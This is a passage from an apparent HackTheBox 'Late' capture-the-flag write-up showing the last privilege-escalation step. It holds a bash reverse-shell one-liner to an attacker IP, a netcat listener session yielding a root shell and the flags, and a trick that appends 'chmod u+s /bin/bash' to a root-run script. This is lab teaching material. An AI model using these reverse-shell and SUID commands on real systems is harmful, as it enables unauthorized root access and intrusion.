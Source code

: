 ```bash
fi


bash -c "exec bash -i &>/dev/tcp/10.10.14.4/9999 <&1"
```

Finally, we can start another netcat listener and execute the script.

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Late]
└─# nc -nlvp 9999            
listening on [any] 9999 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.11.156] 34786
bash: cannot set terminal process group (2037): Inappropriate ioctl for device
bash: no job control in this shell

root@late:/# cat /home/svc_acc/user.txt
cat /home/svc_acc/user.txt
0d165b9722b722ff76c56cc75ccbc819
root@late:/# cat /root/root.txt
cat /root/root.txt
72dac27da89ba5002503d1eaf8011367
```

Reading a writeup from [Shakugan](https://shakuganz.com/2022/07/07/hackthebox-late/), I realized that there was another interesting way to get the root shell which is to set `/bin/bash` to SUID.

```bash
svc_acc@late:~$ echo "chmod u+s /bin/bash" >> /usr/local/sbin/ssh-alert.sh 
svc_acc@late:~$ bash -p
bash-4.4# id
uid=1000(svc_acc) gid=1000(svc_acc) euid=0(root) groups=1000(svc_acc)
```
